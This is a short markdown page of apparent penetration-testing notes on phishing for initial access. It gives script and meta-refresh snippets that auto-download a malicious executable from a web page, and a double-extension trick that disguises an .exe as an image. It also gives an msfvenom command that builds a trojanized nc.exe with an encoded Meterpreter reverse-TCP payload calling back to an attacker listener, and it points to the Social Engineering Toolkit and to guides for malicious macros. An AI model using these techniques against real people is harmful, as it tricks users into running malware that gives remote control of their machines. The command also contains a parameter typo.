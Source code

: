 # Social Engineering - Phishing

Gaining initial access to a network is often done using different kinds of social engineering attacks.

## Auto-download a malicious file

The techical part is not really that difficult here. In order to auto-download a file you just add this script to the malicious webpage

```
<script> document.location.href = 'shell53.exe'; </script>
```

Another way to do it is like this

```
<html>
<head>
<meta http-equiv="refresh" content="0; url=shell53.exe">
</head>
</html>
```

Of course the user will have to accept to download the file, unless the user has previously checked in the box automatically download. The user must then click the file for it to execute. This is where the social engineering part comes in, you really must trick the user into executing the file.

### Change the filename

Since windows by default remove the filename you can call your file shell.jpg.exe, and once downloaded onto the machine windows will display it as "shell.jpg".

### Embed malicious code in legitimate file

It is however very likely that this will be picked up by a antivirus.

```
msfvenom -a x86 --platform windows -x nc.exe -k -p windows/meterpreter/reverse_tcp lhost=192.168.1.101 lhost=53 -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o ncMalicious.exe
```

## ActiveX


The most common tool for social engineering is to use Social Engineering Toolkit. SET. It comes as default in Kali. Run it like this:


```
setoolkit
```
## Spear phishing

## Word/excel makros

An explanation of how to createa malicious makro-wordfile.

https://www.offensive-security.com/metasploit-unleashed/vbscript-infection-methods/

## Reference:
https://www.youtube.com/watch?v=NTdthBQYa1k